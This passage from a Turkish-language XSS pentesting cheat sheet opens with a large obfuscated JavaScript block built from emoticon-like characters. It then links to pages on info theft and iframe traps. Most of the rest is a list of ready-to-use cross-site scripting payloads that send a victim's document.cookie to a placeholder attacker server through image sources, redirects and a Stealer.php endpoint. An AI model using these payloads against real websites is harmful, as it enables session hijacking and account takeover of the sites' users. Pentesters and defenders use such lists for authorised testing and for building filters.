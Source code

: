 ```javascript
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');
```

```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```
## XSS yaygın yükler

### 1'de Birkaç Yük

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### Iframe Tuzağı

Kullanıcının bir iframe'den çıkmadan sayfada gezinmesini sağlamak ve eylemlerini çalmak (formlarda gönderilen bilgiler dahil):

{% content-ref url="../iframe-traps.md" %}
[iframe-traps.md](../iframe-traps.md)
{% endcontent-ref %}

### Çerezleri Alın
```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
```